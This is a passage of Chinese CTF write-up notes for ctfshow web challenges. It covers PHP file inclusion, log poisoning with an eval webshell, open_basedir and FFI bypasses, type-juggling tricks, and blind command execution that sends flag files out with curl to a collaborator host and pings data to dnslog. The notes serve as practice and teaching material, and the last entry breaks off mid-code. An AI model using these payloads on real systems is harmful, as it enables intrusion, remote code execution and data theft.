75.由于存在open_basedir配置的限制，无法使用scandir函数列出目录信息，可以使用glob协议绕过open_basedir的限制
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};exit();    在根目录发现flag36.txt文件
连接数据库,post传值：c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

```
76.c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};exit();    在根目录发现flag36d.txt
连接数据库,更换文件,post传值：c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36d.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

```
77.c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};exit();    根目录有flag36x.txt和readflag
FFI，php7.4以上才有 :
c=$ffi = FFI::cdef("int system(const char *command);"); $a='/readflag > /var/www/html/1.txt'; $ffi->system($a); exit();     访问1.txt得到flag
payload解释:
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//因为没有回显,所以把该文件复制到1.txt中
$ffi->system($a);//通过$ffi去调用system函数
```

```
118.利用系统环境变量来构造
${PATH:~A}为环境变量的最后一个字母,一般环境变量命名规范为/bin所以echo ${PATH:~A}为n
这道题系统环境linux+apache,pwd为/var/www/html    echo ${PWD:~A}为l
已知flag在flag.php中
payload：${PATH:~A}${PWD:~A}${IFS}????.???
payload解释：nl flag.php
我的pwd不是/var/www/html而是/home/zzf,所以得不到l,本地操作复现:
echo ${PATH:~0}
n
echo ${PWD}
/home/zzf
echo ${PWD:1:3}   //表示从第2（1+1）个字符开始的三个字符
hom
echo ${PWD:0:1}   //表示从第1（0+1）个字符开始的一个字符
/
echo ${PWD:0:3}   //表示从第1（0+1）个字符开始的三个字符
/ho
echo ${PWD:~0:1}  //表示从最后一个字符开始的一个字符
f
echo ${PWD:~A}    //字母代表0
f
```



# 文件包含

```
配置文件  /etc/nginx/nginx.conf
访问日志  /var/log/nginx/access.log
localhost可以代替/进行绕过
日志注入,文件包含: ?c=/var/log/nginx/access.log  然后在User-Agent中添加一句话木马:<?php @eval($_POST['a']);?>  可以在Post data中写入a=system(phpinfo());测试连通
```

```
78.if(isset($_GET['file'])){$file = $_GET['file'];include($file);}
1.?file=php://input    post执行命令
2.远程包含,?file=http://your-ip/你的执行文件
3：?file=php://filter/convert.base64-encode/resource=flag.php
data协议:
?file=data://text/plain,<?=system("ls");?>得到flag.php index.php index.php
4：?file=data://text/plain,<?=system("tac flag.php");?>
5：?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pg==

```

```
79.多过滤了php:    ?file=data://text/plain,<?=system("ls");?>得到flag.php index.php index.php
1：?file=data://text/plain,<?=system("tac flag.php");?>
2：?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pg==
3：?file=data://text/plain,<?=eval($_POST[1]);?>  然后POST传值1=system("tac flag.php");
```

```
80.过滤了php和data,
1：用大写PHP绕过：?file=PHP://input ,用bp抓包添加<?php system('ls');?>得到fl0g.php  index.php，重新添加<?php system('tac fl0g.php');?>得到flag
2：在User Agent添加:<?php eval($_POST[1]);?>     ?file=/var/log/nginx/access.log然后post传值1=system("ls");得到fl0g.php index.php,继续post传值1=system("tac fl0g.php");得到flag
    3：在User Agent添加:<?php eval($_POST[1]);?>用蚁剑连接url+ ?file=/var/log/nginx/access.log，输入连接密码1得到shell
```

```
81.过滤了php和data,在User Agent添加:<?php eval($_POST[1]);?>     ?file=/var/log/nginx/access.log然后post传值1=system("ls");得到fl0g.php index.php,继续post传值1=system("tac fl0g.php");得到flag
```


##### base64范围：是 0 ~ 9，a ~ z，A ~ Z，+，/

```
87.file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);需要绕过死亡die或者exit,因为php执行到这就会停止执行了后面想要执行的content内容就不能执行，base64编码范围是 0 ~ 9，a ~ z，A ~ Z，+，/ ，所以除了这些字符，其他字符都会被忽略。所以可以用php://filter/convert.base64-decode/resource=1.php就会只剩下php die    而base64 是4个一组，而 phpdie 只有六个，所以要加两个字母凑足base64的格式。就把需要执行的内容( <?php eval($_POST[1]);?> )编码base64再在前面加了aa:content=aaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+        file上传会过滤php等等,而又会执行urldecode,所以可以对file( php://filter/convert.base64-decode/resource=1.php )进行url编码,需要进行两次编码,因为浏览器会解码一次
```

```
88.if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){           die("error");       }       include($file);过滤了php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\.        include($file); 需要构造data协议：?file=data://text/plain;base64,<?php eval($_GET['cmd']);phpinfo();$_GET;?>11&cmd=system('ls');得到fl0g.php index.php     ?file=data://text/plain;base64,<?php eval($_GET['cmd']);phpinfo();$_GET;?>11&cmd=system('tac fl0g.php');得到flag
```


# php特性

```
89.使用preg_match() 过滤了数字,但是preg_match() 函数无法处理数组,导致被绕过,intval()能处理数组,条件:if(intval($num)){echo $flag; } intval() 转换数组类型时,不关心数组中的内容,只判断数组中有没有元素.空数组返回 0.非空数组返回 1     ?num[]=1得到flag
```

```
90.if($num==="4476"){ die("no no no!"); }  if(intval($num,0)===4476){ echo $flag;}第一个条件是强等于,第二个intval($var,$base)把数字处理成整形,第二个参数 $base 允许为空。当 base 为空时,默认值是 0,会根据 $var 的格式来调整转换的进制. 如果 $var 以 0 开头，就使用8进制,如果 $var 以0x开头,就使用16进制, 否则,就使用10进制        ?num=4476.0得到flag
```

```
91.if(preg_match('/^php$/im', $a)){ if(preg_match('/^php$/i', $a)){echo 'hacker'}else echo $flag;}         ^php是以php开头,/i是大小写匹配,/m可以多行匹配,%0a是换行    ?cmd=%0aphp可得flag
```

```
92.if($num==4476){die("no no no!");}if(intval($num,0)==4476){echo $flag;}第一个条件不能是4476.0了,因为这个是弱等于传值4476.0就会执行结束,intval()函数会去整         ?num=4476.1可得flag
```

```
93.if($num==4476){die("no no no!");}if(preg_match("/[a-z]/i", $num)){die("no no no!");}if(intval($num,0)==4476){echo $flag;}        同上1.?num=4476.1    2.见第90题通过八进制绕过4476的八进制为10574：?num=010574可得flag
```

```
94.if($num==="4476"){die("no no no!");}if(preg_match("/[a-z]/i", $num)){die("no no no!");}if(!strpos($num, "0")){die("no no no!");}if(intval($num,0)===4476){echo $flag;}     strpos() 函数查找字符串在另一字符串中第一次出现的位置。第一个条件传值为4476就执行结束,第二个条件过滤了字母就不能用十六进制通过intval()绕过,第三个条件不能再用八进制通过intval()绕过了,因为八进制传值前面要加0,如果没有找到字符串则返回 FALSE。第三个条件就会执行结束,所以传值为?num=4476.0得到flag
```

```
95.if($num==4476){die("no no no!");}if(preg_match("/[a-z]|\./i", $num)){die("no no no!!");} if(!strpos($num, "0")){die("no no no!!!");}if(intval($num,0)===4476){echo $flag;}     第一个条件是弱等于传4476.0会执行结束,第二个条件过滤了字母和点,不能再通过4476.1得到flag了,第三个条件杜绝第一位数是0,但是可以加除字母以外的的其他字符进行绕过,所以传值为?num=%20010574得到flag
```

```
96.if($_GET['u']=='flag.php'){die("no no no");}else{highlight_file($_GET['u']);}    如果u传值为flag.php则会执行结束,但是flag在flag.php中,可以通过./flag.php绕过,这是当前目录下的flag.php,和直接传flag.php是一个意思        ?u=./flag.php得到flag
```

```
97.if ($_POST['a'] != $_POST['b'])if (md5($_POST['a']) === md5($_POST['b']))echo $flag;         第一个条件a和b的值不相等,第二个条件a和b的md5要相等,可以通过md5处理不了数组会返回null进行绕过,两个null肯定相等满足第二个条件        post传值a[]=1&b[]=2得到flag
```

```
98.$_GET?$_GET=&$_POST:'flag';$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__); 如果存在GET提交则GET=POST的值,而GET['HTTP_FLAG']=='flag'能得到flag,所以post传值为HTTP_FLAG=flag,那么GET['HTTP_FLAG']也就等于flag了     ?HTTP_FLAG=1     post传值HTTP_FLAG=flag得到flag
```

```
99.$allow = array();for ($i=36; $i < 0x36d; $i++) { array_push($allow, rand(1,$i));}if(isset($_GET['n']) && in_array($_GET['n'], $allow)){file_put_contents($_GET['n'], $_POST['content']);}    $allow是一个空数组,0x36d转换十进制为:877,array_push()往数组尾部插入元素,rand()是一个随机函数,随机1-$i之间的数字,in_array()搜索数组中是否存在指定的值:in_array(search,array,type),search为指定搜索的值,array为指定检索的数组,type为TRUE则 函数还会检查 search的类型是否和 array中的相同,此题没有设置type,数组中的值是int，而在弱类型中当php字符串和int比较时,字符串会被转换成int,字符串中数字后面的字符串会被忽略即1.php=1        ?n=1.php    post传值 content=<?php eval($_POST[1]);?>可能需要多试几次,因为这个是随机函数写入数组,可能数组不存在1,然后访问 1.php,post传值1=system("ls");得到flag36d.php    继续传值1=system("tac flag36d.php");得到flag
```

```
100.$ctfshow = new ctfshow();$v1=$_GET['v1'];$v2=$_GET['v2'];$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);    #is_numeric() 可以检测变量是否为数字或数字字符串,and只需要第一个是数字就行,其他可以不是数字
if($v0){if(!preg_match("/\;/", $v2)){        #$v2不能有;
if(preg_match("/\;/", $v3)){eval("$v2('ctfshow')$v3");}}}        #v3要有;
/**/是内敛注释,屏蔽('ctfshow')     
1.?v1=1&v2=print_r($ctfshow)/*&v3=*/;
2.?v1=1&v2=eval($_POST[1])/*&v3=*/;  post传值1=system("ls");得到ctfshow.php flag36d.php  继续post传值1=system("tac ctfshow.php");       可得flag为：eb7b3dc00x2d5ae10x2d4b0f0x2da79d0x2dc71a4d995e51,十六进制0x2d的十进制是45,45的acill是-,所以真正flag为:eb7b3dc0-5ae1-4b0f-a79d-c71a4d995e51
```

```
101.前面语句同100,if($v0){
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){        #v2过滤了许多字符,不能再用注释符绕过了
 if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){        #v3执行eval函数里面的字符串后面要加;
eval("$v2('ctfshow')$v3");}}      #new ReflectionClass($class) 可以获得类的反射对象包含元数据对象(包含class的所有属性/方法的元数据信息)。
?v1=1&v2=echo new Reflectionclass&v3=;可得flag
```

```
102.$v4 = is_numeric($v2) and is_numeric($v3);        #v2要传数字,5044383959474e6864434171594473
if($v4){$s = substr($v2,2);        # substr($v2,2)从$v2的第三位截断字符串,所以v2要随便加两个数字:115044383959474e6864434171594473
$str = call_user_func($v1,$s);    #$v1是要调用的函数,$s是参数,调用hex2bin将5044383959474e6864434171594473还原为PD89YGNhdCAqYDs
echo $str;
file_put_contents($v3,$str);}     #$v3是要写入的文件,$str是写入的内容,这里再用一下php的伪协议:php://filter/convert.base64-decode/resource=1.php解码PD89YGNhdCAqYDs得到<?=`cat *`;       并把这个写入了1.php
?v2=115044383959474e6864434171594473&v3=php://filter/convert.base64-decode/resource=1.php    post传值v1=hex2bin  访问1.php,右键查看页面源代码得到flag
```

```
103.同上，call_user_func()函数会返回调用函数处理后的内容
```

```
104.if(isset($_POST['v1']) && isset($_GET['v2'])){        #如果存在v1和v2则继续执行
$v1 = $_POST['v1'];$v2 = $_GET['v2'];
 if(sha1($v1)==sha1($v2)){echo $flag;}}     #如果v1和v2用sha1加密后相等则输出flag
1.?v2=1    post传值v1=1得到flag    当然这里没有先不相等,sha1加密后才相等的,这里补充一个:2. ?v2=aaK1STfY      v1=aaO8zKZF得到flag
3.sha1()和md5()一样不能处理数组,所以:        ?v2[]=1  post传值v1[]=1得到flag
```

```
105.做着道题前先了解一下$$的含义:$a="abc";$$a=123;echo $abc;得到123    这里的$$a==$abc
$error='你还想要flag嘛？';$suces='既然你想要那给你吧！';        #这里给了两个变量
foreach($_GET as $key => $value){            #传?suces=flag    这里的$key=suces,$value=flag
if($key==='error'){die("what are you doing?!");}        #$key===error就执行结束            
$$key=$$value;        #因为$key=suces,$value=flag,所以这里的$$key=$suces,$$value=$flag,即$suces=$flag
}foreach($_POST as $key => $value){            #post传error=suces    这里的$key=error,$value=suces
if($value==='flag'){die("what are you doing?!");}        #$value===flag就执行结束
$$key=$$value;}        #因为$key=error,$value=suces,所以这里的$$key=$error,$$value=$suces,即$error=$suces
if(!($_POST['flag']==$flag)){die($error);}
echo "your are good".$flag."\n"; 
die($suces); 
?suces=flag    post传error=suces得到flag
```

```
106.if(isset($_POST['v1']) && isset($_GET['v2'])){
$v1 = $_POST['v1'];$v2 = $_GET['v2'];
if(sha1($v1)==sha1($v2) && $v1!=$v2){echo $flag;}}     #sha1直接可以用数组绕过
1.?v2[]=2    post传值v1[]=1得到flag        2.?v2=aaK1STfY        post传值v1=aaO8zKZF得到flag
```

```
107.$v1 = $_POST['v1'];$v3 = $_GET['v3'];
parse_str($v1,$v2);        #parse_str("flag=0e215962017", $output);    echo $output['flag']; //输出 0e215962017
if($v2['flag']==md5($v3)){echo $flag;}
1.通过数组绕过,md5返回null值,$v2也找不到flag值返回null值得到flag：?v3[]=1        post随便传个不是flag的值,    v1=1
2.弱等于绕过,这个0e215962017的md5加密后还是0e开头可以弱等于绕过：?v3=0e215962017    post传值v1=flag=0e215962017得到flag
```

```
108.ereg()函数是一个正则表达式函数匹配到将返回true，否则返回false。
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {die('error');}        #传的第一个值要是字母,可以用%00截断ereg函数
if(intval(strrev($_GET['c']))==0x36d){echo $flag;}         #strrev(),该函数返回指定字符串被翻转后的字符串。intval(字符串)返回0,传?c=a%00d63x0过去被strrev()反转得到字符串0x36d00%a,echo intval(0x36)输出0,所以不能使用十六进制绕过,    也不能通过八进制绕过,echo("01555")输出为1555,echo intval("778a")输出778
?c=a%00778得到flag
```

```
109.1.?v1=Exception&v2=system("ls")    得到fl36dg.txt    ?v1=Exception&v2=system("tac fl36dg.txt")得到flag
2.?v1=Reflectionclass&v2=system('tac fl36dg.txt')
```

```
110.if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){die("error v1");}        #过滤以上字符
if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){die("error v2");}
eval("echo new $v1($v2());");         #要利用类去获取信息
php内置类利用 FilesystemIterator获取指定目录下的所有文件,getcwd()函数获取并返回当前工作目录        ?v1=filesystemiterator&v2=getcwd得到fl36dga.txt,访问即可得到flag
```

```
111.function getFlag(&$v1,&$v2){eval("$$v1 = &$$v2;");var_dump($$v1);}        #需要列出所有的变量,$GLOBALS引用全局作用域中可用的全部变量
if(isset($_GET['v1']) && isset($_GET['v2'])){$v1 = $_GET['v1'];$v2 = $_GET['v2'];
if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){die("error v1");}    #过滤以上字符
if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){die("error v2");}    #过滤以上字符
if(preg_match('/ctfshow/', $v1)){getFlag($v1,$v2);}             #v1传值为ctfshow,调用getFlag函数
?v1=ctfshow&v2=GLOBALS    得到全部变量,看到flag
```

```
112.function filter($file){if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){die("hacker!");}else{return $file;}}        #过滤了这些协议
$file=$_GET['file'];
if(! is_file($file)){highlight_file(filter($file));        #直接写文件名会执行结束,is_file函数可以使用包装器,伪协议进行绕过
}else{echo "hacker!";} 
1.?file=php://filter/resource=flag.php 
2.?file=php://filter/read=convert.quoted-printable-encode/resource=flag.php 
3.?file=compress.zlib://flag.php
4.?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php现在还不知道怎么解码,慎用
```

```
113.function filter($file){if(preg_match('/filter|\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){die("hacker!");}else{return $file;}}        #比上一题多过滤了filter协议
$file=$_GET['file'];
if(! is_file($file)){highlight_file(filter($file));        #直接写文件名会执行结束,is_file函数可以使用包装器,伪协议进行绕过
}else{echo "hacker!";}
1.目录溢出,让is_file函数认为不是文件:    ?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
2.   ?file=compress.zlib://flag.php    得到flag
```

```
114.function filter($file){if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){die('hacker!');}    #多匹配了compress|root|zip|convert,少匹配了filter
else{return $file;}}$file=$_GET['file'];echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){highlight_file(filter($file));}else{echo "hacker!";}
?file=php://filter/resource=flag.php
```

```
115.function filter($num){$num=str_replace("0x","1",$num);$num=str_replace("0","1",$num);$num=str_replace(".","1",$num);
$num=str_replace("e","1",$num);$num=str_replace("+","1",$num);return $num;}        #这是几个替换
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){#第一个条件要求数字或数字字符串,第二个条件是强不等于,类型不等于就不等于,第三个条件会去空格,第四个弱等于
if($num=='36'){echo $flag;}else{echo "hacker!!";} 
?num=%0c36    得到flag    #%0c==\f (换页符),trim() 将去除这些字符： (0x20)普通空格符,(0x09)制表符,(0x0A)换行符,(0x0D)回车符,(0x00)空字节符,(0x0B)垂直制表符。 
```

```
123.$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
eval("$c".";");      #这道题过滤了很多函数,比如print_r,var_dump等等
if($fl0g==="flag_give_me"){echo $flag;}}} #上面条件需要不存在这个变量,考虑上面的eval执行函数
在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、.、[则会被转化为_，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换。因此我们可以构造出来该变量名
1.post传值    CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag    得到flag
2.post传值    CTF_SHOW=1&CTF[SHOW.COM=1&fun=var_export(get_defined_vars())
3.post传值    CTF_SHOW=1&CTF[SHOW.COM=1&fun=var_export($GLOBALS)
4.implode()将一个一维数组的值转化为字符串,post传值    (1)    CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo implode(get_defined_vars())        (2)CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo implode($GLOBALS)
```

```
125.include("flag.php");$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){    #多禁了几个
eval("$c".";");
if($fl0g==="flag_give_me"){echo $flag;}}} 
1.post传值    CTF_SHOW=1&CTF[SHOW.COM=1&fun=var_export(get_defined_vars())
2.post传值    CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])    get传值?1=flag.php
3.变量覆盖    CTF_SHOW=1&CTF[SHOW.COM=1&fun=extract($_POST)&fl0g=flag_give_me
```

```
126.$a=$_SERVER['argv'];$c=$_POST['fun'];        #$_SERVER['argv']传递给该脚本的参数,是一个数组。
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){eval("$c".";");  
if($fl0g==="flag_give_me"){echo $flag;}}} 
parse_str ()将字符串解析成多个变量,parse_str("S=123");echo $S; //输出123
1.?a=1+fl0g=flag_give_me        #因为有argv,所以传了一个数组,a=1,fl0g=flag_give_me    
post传值CTF_SHOW=1&CTF[SHOW.COM=1&fun=parse_str($a[1])得到flag    #因为$a接收$_SERVER['argv']数组,所以$a[1]=fl0g=flag_give_me,parse_str ()再一解析可得$fl0g=flag_give_me    输出flag
2.?$fl0g=flag_give_me        post传值CTF_SHOW=1&CTF[SHOW.COM=1&fun=assert($a[0])得到flag    #assert() 会将字符串当做PHP 代码来执行,只能执行单条PHP 语句.

```

```
127.$ctf_show = md5($flag);$url = $_SERVER['QUERY_STRING'];    #$_SERVER["QUERY_STRING"]    查询的字符串
//特殊字符检测
function waf($url){if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){return true;}else{return false;}}    
if(waf($url)){die("嗯哼？");}else{extract($_GET);}        #这个url可以不用传值,直接覆盖ctfshow变量的值
if($ctf_show==='ilove36d'){echo $flag;}    #修改ctf_show变量为ilove36d即可得到flag
?ctf show=ilove36d得到flag    没有过滤空格,空格会自动转为下划线
```

```
128.$f1 = $_GET['f1'];$f2 = $_GET['f2'];
if(check($f1)){var_dump(call_user_func(call_user_func($f1,$f2)));}else{echo "嗯哼？";}
function check($str){return !preg_match('/[0-9]|[a-z]/i', $str);}    #含有数字,字母返回false
?f1=_()&f2=get_defined_vars    得到flag     #_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll
```

```
129.if(isset($_GET['f'])){$f = $_GET['f'];
if(stripos($f, 'ctfshow')>0){echo readfile($f);}}    stripos() 函数查找字符串在另一字符串中第一次出现的位置
?f=/ctfshow/../../../../var/www/html/flag.php 查看源代码获得 flag
```

```
130.if(isset($_POST['f'])){$f = $_POST['f'];
if(preg_match('/.+?ctfshow/is', $f)){die('bye!');}    #ctfshow前有值就执行结束
if(stripos($f, 'ctfshow') === FALSE){die('bye!!');}   #传入的ctfshow要在第一位
echo $flag;} 
1.post传值     f=ctfshow
2.数组绕过,post传值    f[]=1
```

```
131.if(isset($_POST['f'])){$f = (String)$_POST['f'];    #会把post传的f值转化为字符串,不能使用数组绕过
if(preg_match('/.+?ctfshow/is', $f)){die('bye!');}        #ctfshow前面有字符就执行结束,正则表达式进行匹配有一定的限制，超过限制直接返回false
if(stripos($f,'36Dctfshow') === FALSE){die('bye!!');}echo $flag;}     #传过来的f值必须有36Dctfshow,未找到会返回false执行结束语句,preg_match正则匹配有长度限制,执行<?php echo str_repeat('very', '250000').'36Dctfshow';?>得到payload     post传值    ?f=前面的payload即可得到flag
```

##### “与”（&&） 运算： x && y 当x为false时，直接跳过，不执行y； 对于“或”（||） 运算 ： x||y 当x为true时，直接跳过，不执行y。

```
132.if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){$username = (String)$_GET['username'];$password = (String)$_GET['password'];$code = (String)$_GET['code'];
if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
if($code == 'admin'){echo $flag;}}}     #第一个条件执行随机函数,返回false第二个条件不执行,第三个条件需要等于admin,下一个条件code也需要等于admin
?username=admin&password=admin&code=admin    得到flag
```

```
133.//flag.php    if($F = @$_GET['F']){if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){    
eval(substr($F,0,6));}else{die("6个字母都还不够呀?!");}}
这是一道无回显命令执行,无回显我们可以用反弹shell 或者curl外带 或者盲注 这里的话反弹没有成功，但是可以外带。传?F=`$F`; sleep 3   即执行eval("` `$F `;sleep 3` ");   也就是说最终会执行  ` `$F `;sleep 3 ` == shell_exec("`$F `;sleep 3");前面的命令我们不需要管，但是后面的命令我们可以自由控制。curl -F 将flag文件上传到Burp的 Collaborator Client类似DNSLOG        
payload：curl -X POST -F xx=@flag.php http://xxx
1.传入?F=`$F`; curl -X POST -F xx=@flag.php http://pjcdejsad1cy37lanrxcdvemzd53ts.oastify.com    在bp中Collaborator Client查看http找到flag
2.dnslog外带http://www.dnslog.cn/    先用dnslog获得一个网站
?F=`$F`; ping `cat flag.php | grep ctfshow | tr -cd '[a-z]'/'[0-9]'`.dnslog得到的网址 -c 1
```

```
134.if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {die("nonononono");}
@parse_str($_SERVER['QUERY_STRING']);extract($_POST);    #parse_str()会将字符串解析成变量,extract()变量覆盖,$_SERVER["QUERY_STRING"]获取查询语句，获取的是?后面的值
if($key1 == '36d' && $key2 == '36d') {die(file_get_contents('flag.php'));}    #file_get_contents()用于读取文件中的内容,需要右键查看源代码查看到php文件
?_POST[key1]=36d&_POST[key2]=36d得到flag    _POST[key1]=36d经过parse_str()变成$_POST[key1]=36d,$_POST[key1]=36d则是post传值：key1=36d 经过extract()覆盖变成$key1=36d
```

```
135.//flag.php
if($F = @$_GET['F']){
if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){eval(substr($F,0,6));}else{die("师傅们居然破解了前面的，那就来一个加强版吧");}}
1.?F=`$F`; nl flag.php>1.txt    这里可以直接写入,把读取的flag.php存入到1.txt中,访问1.txt得到flag
2.?F=`$F`; ping `nl flag.php|awk 'NR==15'|tr -cd "[a-z]"/"[0-9]"`.1hogno.dnslog.cn -c 1    #得到第一段flag,flag放在第15、16行,但是我用这个payload没复现成功,和视频一模一样,应该是环境问题。
?F=`$F`; ping `nl flag.php|awk 'NR==16'|tr -cd "[a-z]"/"[0-9]"`.1hogno.dnslog.cn -c 1    #得到第二段flag
```

```
136.function check($x){if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){die('too young too simple sometimes naive!');}}
if(isset($_GET['c'])){$c=$_GET['c'];check($c);exec($c);} 
1.?c=ls /|tee 1 访问1下载发现根目录下有flag叫f149_15_h3r3  ?c=cat /f149_15_h3r3|tee 2 访问2下载得到flag
2.骚操作,修改题目：?c=ls |xargs sed -i 's/die/echo/' #这里把die命令更改为了echo命令,匹配到了过滤仍然可以继续执行   ?c=ls |xargs sed -i 's/exec/system/'    #这里把执行外部命令exec无回显的命令更改为了执行外部命令system有回显的命令。    ?c=cat /f149_15_h3r3得到flag
```

##### 同时查看和保存一个命令的输出：ls | tee 1



##### 调用类的静态方法：

```
137.class ctfshow    #定义一个类
{function __wakeup(){die("private class");}
static function getFlag(){echo file_get_contents("flag.php");}}    #这是一个静态方法
call_user_func($_POST['ctfshow']);
post传值  ctfshow=ctfshow::getFlag    然后右键查看源代码得到flag
```

```
138.class ctfshow
{function __wakeup(){die("private class");}static function getFlag(){echo file_get_contents("flag.php");}}    #需要调用到静态方法getFlag得到flag
if(strripos($_POST['ctfshow'], ":")>-1){die("private function");}    #不能用ctfshow=ctfshow::getFlag调用类的静态方法了,出现:则执行结束
call_user_func($_POST['ctfshow']);
post传值    ctfshow[0]=ctfshow&ctfshow[1]=getFlag    call_user_func可以传数组。
```

```
139.
```

```
140.if(isset($_POST['f1']) && isset($_POST['f2'])){$f1 = (String)$_POST['f1'];$f2 = (String)$_POST['f2'];
if(preg_match('/^[a-z0-9]+$/', $f1)){    #post传值的f1和f2都要以这些开头
if(preg_match('/^[a-z0-9]+$/', $f2)){$code = eval("return $f1($f2());");
if(intval($code) == 'ctfshow'){echo file_get_contents("flag.php");}}}}
post传值1.f1=usleep&f2=usleep    #usleep没有返回值。 所以intval参数为空，失败返回0
2.f1=system&f2=system    #system命令成功则返回命令输出的最后一行,失败则返回FALSE,system()必须包含参数,失败返回FLASE；
3.f1=getdate&f2=getdate    #getdate返回结果是array,参数必须是int型。所以getdate(getdate())---->getdate(array型)--->失败返回flase,intval为0。
var_dump(eval(false));输出bool(false) 。var_dump(intval(false));输出int(0)。弱等于,var_dump(0=="ctfshow"); 输出bool(true) 
```


```
116.这是一道misc+lfi题,题目打开是视频,把视频下载到本地名字为1.mp4,用binwalk查看, binwalk 1.mp4 发现内含PNG图片, 然后将PNG文件分离出来 binwalk -e 1.mp4 -D PNG 然后得到图片也可以通过 foremost 1.mp4得到图片, 图片内容大致为: <?php function filter($x){ if(preg_match('/http|https|data|input|rot13|base64|string|log|sess/i',$x)){        #匹配到这些字符就执行结束
